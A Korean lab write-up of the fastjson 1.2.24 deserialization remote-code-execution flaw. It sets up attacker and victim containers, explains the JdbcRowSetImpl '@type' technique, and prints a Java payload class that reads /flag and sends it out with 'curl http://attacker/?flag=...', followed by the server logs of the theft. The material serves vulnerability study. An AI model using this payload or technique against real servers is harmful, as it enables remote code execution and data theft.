 # fastjson 1.2.24 역직렬화 취약점으로 인한 원격 임의코드 실행
> [동헌희_4412(hui1601)](https://github.com/hui1601)

**AMD64 아키텍처에서 동작합니다.**
## 요약

fastjson은 클래스를 인스턴스화하고 해당 클래스 메서드의 자료형에 따라 json 구문 분석에서 자동 유형 사용을 지원한다. 일부 악의적인 익스플로잇 코드는 코드에서 관련 메서드를 조회하여 설정할 수 있다.

## 분석
fastjson은 `@type` 필드를 통해 클래스를 인스턴스화하고 해당 클래스 메서드의 자료형에 따라 json 구문 분석에서 자동 유형 사용을 지원한다.
또한 역직렬화 과정 중, `setter`, `getter`가 존재하면 해당 메서드를 호출하고, 없을 경우에만 `field`에 값을 직접 할당한다.
이를 이용해 `@type` 필드에 `com.sun.rowset.JdbcRowSetImpl` 클래스를 지정하고 `dataSourceName` 필드에 악의적인 코드를 입력하고, `autoCommit` 필드에 `true` 값을 입력하면, `setAutoCommit` 메서드가 호출되어 악의적인 코드가 실행된다.

## 환경 구성 및 실행
```sh
docker compose up -d # 공격자, 피해 서버 컨테이너의 Dockerfile을 빌드하고 실행된다. 이때, 피해 서버의 `/flag` 파일에 플래그가 저장되어 있다.
```
먼저 공격자와 피해 서버를 docker compose로 실행한다.
```sh
docker exec -it 1224-rce-attacker-1 /bin/bash
```
공격자 컨테이너로 접속한다.
```sh
./exploit.sh
```
`exploit.sh` 스크립트를 실행하여 취약점을 익스플로잇한다.
```java
import java.lang.Runtime;
import java.math.BigInteger;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.stream.Stream;
public class TouchFile {
    static {
        try {
            Stream<String> stream = Files.lines(Paths.get("/flag"));
            String flag = stream.findFirst().get();
            String hex = String.format("%x", new BigInteger(1, flag.getBytes()));
            Runtime.getRuntime().exec("curl http://attacker/?flag=" + hex);
        } catch (Exception ignore) {}
    }
}
```
exploit.sh에서 익스플로잇할 때 사용하는 `TouchFile.class` 파일이다. `TouchFile` 클래스는 `/flag` 파일을 읽어들여 `flag` 파일의 내용을 공격자에게 전송하는 코드를 포함하고 있다.
## 결과
```sh
docker container logs 1224-rce-attacker-1 # 공격자 컨테이너 로그를 확인한다.(python3 -m http.server 80 의 로그)
```
```
172.30.0.2 - - [05/May/2024 07:23:00] "GET /TouchFile.class HTTP/1.1" 200 -
172.30.0.2 - - [05/May/2024 07:23:00] "GET /?flag=464c41477b666173746a736f6e5f312e322e32345f7263657d HTTP/1.1" 200 -
```
공격자 컨테이너 로그를 확인하면 `TouchFile.class` 파일을 읽어들여 실행하고, 실행된 클래스가 `/flag` 파일의 내용을 공격자에게 전송하는 것을 확인할 수 있다.

## 정리

해당 취약점은 fastjson 1.2.24 버전에서 발생하는 역직렬화 취약점으로, 공격자가 악의적인 코드를 입력하여 피해 서버에서 임의코드를 실행할 수 있다. 따라서, 주기적인 취약점 점검과 의존성 업데이트를 통해 취약점을 방지하는 것이 중요하다.